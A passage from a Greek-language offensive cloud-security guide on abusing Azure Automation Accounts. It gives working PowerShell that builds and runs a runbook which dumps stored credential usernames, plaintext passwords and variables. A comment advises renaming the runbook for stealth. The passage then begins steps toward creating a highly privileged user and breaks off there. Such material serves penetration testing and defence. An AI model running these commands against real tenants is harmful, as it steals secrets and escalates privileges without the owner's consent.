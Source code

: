 ```powershell
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Εξαγωγή Πιστοποιητικών & Μεταβλητών που ορίζονται σε έναν Λογαριασμό Αυτοματοποίησης χρησιμοποιώντας ένα Run Book
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
> [!NOTE]
> Μπορείτε να κάνετε το ίδιο πράγμα τροποποιώντας ένα υπάρχον Run Book, και από την διαδικτυακή κονσόλα.

### Βήματα για τη Ρύθμιση Δημιουργίας Αυτοματοποιημένου Υψηλά Προνομιακού Χρήστη

#### 1. Αρχικοποίηση ενός Λογαριασμού Αυτοματοποίησης

- **Απαιτούμενη Ενέργεια:** Δημιουργήστε έναν νέο Λογαριασμό Αυτοματοποίησης.
- **Συγκεκριμένη Ρύθμιση:** Βεβαιωθείτε ότι είναι ενεργοποιημένο το "Create Azure Run As account".
